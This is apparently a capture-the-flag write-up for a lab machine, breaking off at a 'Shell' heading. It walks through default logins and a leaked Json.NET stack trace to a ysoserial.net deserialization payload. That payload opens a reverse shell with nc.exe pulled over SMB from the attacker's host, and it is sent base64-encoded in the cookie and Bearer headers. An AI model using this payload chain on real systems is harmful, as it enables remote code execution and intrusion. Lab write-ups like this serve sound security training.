







# 10 - HTTP

# Index Page


As soon as the index page appears on the screen, in just a few seconds we will be redirected to login.html


We can try some default credentials. Email address is not properly sanitized so we can omit the domain part `@example.com`

root:root
admin:admin
guest:guest



Notice the OAuth2 cookie.

```bash
┌─[user@parrot]─[10.10.14.6]─[~/htb/json]
└──╼ $ echo -n eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=|base64 -d
{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}
```

Base64 decoded json object is interesting, we can hunt deserialization vulnerabilities here. 




After sending an invalid OAuth2 object, the server replied with 500 internal server error including the stack trace. What we are looking for in the stack trace is the deserialization package. If we are lucky, we can go to ysoserial.net to generate a malicious payload for remote code execution.


```err
"StackTrace":"   at Newtonsoft.Json.JsonReader.ReadAndAssert()
   at Newtonsoft.Json.Serialization.JsonSerializerInternalReader.CreateObject(JsonReader reader, Type objectType, JsonContract contract, JsonProperty member, JsonContainerContract containerContract, JsonProperty containerMember, Object existingValue)
   at Newtonsoft.Json.Serialization.JsonSerializerInternalReader.Deserialize(JsonReader reader, Type objectType, Boolean checkAdditionalContent)
   at Newtonsoft.Json.JsonSerializer.DeserializeInternal(JsonReader reader, Type objectType)
   at Newtonsoft.Json.JsonConvert.DeserializeObject(String value, Type type, JsonSerializerSettings settings)
   at Newtonsoft.Json.JsonConvert.DeserializeObject[T](String value, JsonSerializerSettings settings)
   at DemoAppExplanaiton.Controllers.AccountController.GetInfo() in C:\\Users\\admin\\source\\repos\\DemoAppExplanaiton\\DemoAppExplanaiton\\Controllers\\AccountController.cs:line 80
   at lambda_method(Closure , Object , Object[] )
   at System.Web.Http.Controllers.ReflectedHttpActionDescriptor.ActionExecutor.<>c__DisplayClass6_2.<GetExecutor>b__2(Object instance, Object[] methodParameters)
   at System.Web.Http.Controllers.ReflectedHttpActionDescriptor.ExecuteAsync(HttpControllerContext controllerContext, IDictionary`2 arguments, CancellationToken cancellationToken)
--- End of stack trace from previous location where exception was thrown ---
   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()
   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)
   at System.Web.Http.Controllers.ApiControllerActionInvoker.<InvokeActionAsyncCore>d__1.MoveNext()
--- End of stack trace from previous location where exception was thrown ---
   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()
   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)
   at System.Web.Http.Controllers.ActionFilterResult.<ExecuteAsync>d__5.MoveNext()
--- End of stack trace from previous location where exception was thrown ---
   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()
   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)
   at System.Web.Http.Filters.AuthorizationFilterAttribute.<ExecuteAuthorizationFilterAsyncCore>d__3.MoveNext()
--- End of stack trace from previous location where exception was thrown ---
   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()
   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)
   at System.Web.Http.Dispatcher.HttpControllerDispatcher.<SendAsync>d__15.MoveNext()"
```

# Newtonsoft




A quick google search on newtonsoft reveals that we are dealing with Json.NET


# ysoserial.net




Ysosearial has several Json.NET gadgets. It looks like we are about the get the initial foothold.


# Payload generation on windows


```powershell
COMMANDO Mon 08/16/2021  5:10:40.19                                                                                                                                                                                                          C:\>ysoserial.exe -f Json.net -g ObjectDataProvider -o raw -c "\\10.10.14.6\www\nc.exe -e cmd 10.10.14.6 4444"
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35', 
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c \\\\10.10.14.6\\www\\nc.exe -e cmd 10.10.14.6 4444']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```


`\\10.10.14.6\www\nc.exe -e cmd 10.10.14.6 4444` 
This code will execute nc.exe that is located in the attacker's box through smb. Of course, we need to host also an smb server, I prefer impacket-smbserver

```bash
┌─[user@parrot]─[10.10.14.6]─[~/htb/json]                                                                                                                                                     
└──╼ $ sudo impacket-smbserver  -smb2support www www/                                                                                                                                         
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation 
┌─[user@parrot]─[10.10.14.6]─[~/htb/json]                                                                                                                                                     
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...
```


# Base64 encode the payload and send it

```
┌─[user@parrot]─[10.10.14.6]─[~/htb/json/www]
└──╼ $ cat text  | base64  -w0
ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YVByb3ZpZGVyLCBQcmVzZW50YXRpb25GcmFtZXdvcmssIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1JywgDQogICAgJ01ldGhvZE5hbWUnOidTdGFydCcsDQogICAgJ01ldGhvZFBhcmFtZXRlcnMnOnsNCiAgICAgICAgJyR0eXBlJzonU3lzdGVtLkNvbGxlY3Rpb25zLkFycmF5TGlzdCwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgJyR2YWx1ZXMnOlsnY21kJywgJy9jIFxcXFwxMC4xMC4xNC42XFx3d3dcXG5jLmV4ZSAtZSBjbWQgMTAuMTAuMTQuNiA0NDQ0J10NCiAgICB9LA0KICAgICdPYmplY3RJbnN0YW5jZSc6eyckdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5J30NCn0=
```


# What the request looks like
```
GET /api/Account/ HTTP/1.1
Host: 10.10.10.158
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Bearer: ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YVByb3ZpZGVyLCBQcmVzZW50YXRpb25GcmFtZXdvcmssIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1JywgDQogICAgJ01ldGhvZE5hbWUnOidTdGFydCcsDQogICAgJ01ldGhvZFBhcmFtZXRlcnMnOnsNCiAgICAgICAgJyR0eXBlJzonU3lzdGVtLkNvbGxlY3Rpb25zLkFycmF5TGlzdCwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgJyR2YWx1ZXMnOlsnY21kJywgJy9jIFxcXFwxMC4xMC4xNC42XFx3d3dcXG5jLmV4ZSAtZSBjbWQgMTAuMTAuMTQuNiA0NDQ0J10NCiAgICB9LA0KICAgICdPYmplY3RJbnN0YW5jZSc6eyckdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5J30NCn0=
DNT: 1
Connection: close
Referer: http://10.10.10.158/
Cookie: OAuth2=ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YVByb3ZpZGVyLCBQcmVzZW50YXRpb25GcmFtZXdvcmssIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1JywgDQogICAgJ01ldGhvZE5hbWUnOidTdGFydCcsDQogICAgJ01ldGhvZFBhcmFtZXRlcnMnOnsNCiAgICAgICAgJyR0eXBlJzonU3lzdGVtLkNvbGxlY3Rpb25zLkFycmF5TGlzdCwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgJyR2YWx1ZXMnOlsnY21kJywgJy9jIFxcXFwxMC4xMC4xNC42XFx3d3dcXG5jLmV4ZSAtZSBjbWQgMTAuMTAuMTQuNiA0NDQ0J10NCiAgICB9LA0KICAgICdPYmplY3RJbnN0YW5jZSc6eyckdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5J30NCn0=
Sec-GPC: 1
```

Keep in mind that there is also another header `Bearer`. That also needs to be changed.


# Shell

